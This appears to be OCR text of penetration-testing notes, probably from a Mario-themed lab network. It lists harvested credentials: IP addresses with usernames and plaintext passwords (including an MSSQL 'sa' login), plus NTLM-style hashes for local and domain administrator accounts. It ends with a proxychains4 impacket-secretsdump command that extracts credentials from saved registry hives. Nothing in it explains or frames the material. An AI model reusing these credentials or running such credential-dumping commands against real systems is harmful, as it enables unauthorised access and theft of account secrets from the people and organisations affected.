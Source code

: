 192.168.x.121;mssql,sa:WhileChirpTuesday218
192.168.x.121;user,joe,Flowers1
172.16.x.11;user,daisy,abf36048c1cf88f5603381c5128feb8e
172.16.x.11;user,toad,5be63a865b65349851c1f11a067a3068 
172.16.x.11;user,wario,Mushroom!
172.16.x.11;user,goomba,8e9e1516818ce4e54247e71e71b5f436
172.16.x.11;user,administrator,f1014ac49bae005ee3ece5f47547d185
172.16.x.11;domain,administrator,a7c5480e8c1ef0ffec54e99275e6e0f7
172.16.x.11;domain,yoshi,cd21be418f01f5591ac8df1fdeaa54b6 
172.16.x.11;domain,wario,b82706aff8acf56b6c325a6c2d8c338a
172.16.x.11;domain,joe,464f388c3fe52a0fa0a6c8926d62059c
proxychains4 impacket-secretsdump -system system -sam sam -security security joe@172.16.244.11